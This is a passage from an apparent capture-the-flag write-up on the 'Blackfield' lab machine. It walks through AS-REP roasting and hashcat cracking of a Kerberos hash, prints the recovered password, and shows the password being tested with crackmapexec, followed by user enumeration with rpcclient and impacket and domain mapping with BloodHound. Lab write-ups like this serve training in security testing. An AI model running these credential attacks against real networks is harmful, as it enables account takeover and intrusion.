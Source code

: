 We crack the hash on host machine because it’s quicker

```bash
hashcat.exe -m 18200 wordlists\support_hash.txt wordlists\rockyou.txt

hashcat.exe -m 18200 wordlists\support_hash.txt --show

result:
$krb5asrep$23$support@BLACKFIELD:9595d8b66ce355129104497aa702aa9d$7cc27f70ba1100b2b2a592fe8a79b2c10b3f07152172ef04510d940e1febf3c4c5                                                                                                           55f57657ca9676a56d57da1cad8a2f152c67852f24ede584a7faf1e3e76c7b53751b841789fcc51002d90b457dcba1f7e4ad23b3a66b2fc321fa4d18bb0773fcbfb1f                                                                                                           f6ada09ad265ea32aeeafe9343f9fdbb582ef9d33911fffd156142f4b9e3e4a8abf401a5ffba29693c6175ddfccd241465ad02ca5eebc81d84e82f4b34b394b6a472c                                                                                                           c18ebedd761e9189df6d12ce907d833a507d19691931f02bf203cd40402fbd9d02ab930237193208bc2187241c04a4d8b282bec6924cc1a66c52765b72c789186d76c                                                                                                           c1203d8f409de2b:#00^BlackKnight
```

We have cracked the hash

Now let’s test if the password works and attempt to login on the smbshare

```bash
crackmapexec smb 10.129.252.166 -u support -p '#00^BlackKnight' 

#The password is correct. 
```

Now let’s go back to rpc port and do enumdomusers to get a full list of usernames

```bash
rpcclient -U support 10.129.252.166

```

Create a tmp file for it and filter only the username

```bash
cat tmp | awk -F '\[' '{print $2}' | awk -F '\]' '{print $1}' > valid_users.lst
```

Now we do GetNPUsers again

```bash
/usr/share/doc/python3-impacket/examples/GetNPUsers.py blackfield/ -dc-ip 10.129.252.166 -no-pass -usersfile valid_users.lst 
```

No other users ticket hash was found. Let’s try and map the network out with bloodhound

```bash
mkdir bloodhound_output
bloodhound-python -u support -p '#00^BlackKnight' -ns 10.129.252.166 -d blackfield.local -c all

#Then once it's finished running, start bloodhound and click and drage all files to bloodhound

bloodhound
```
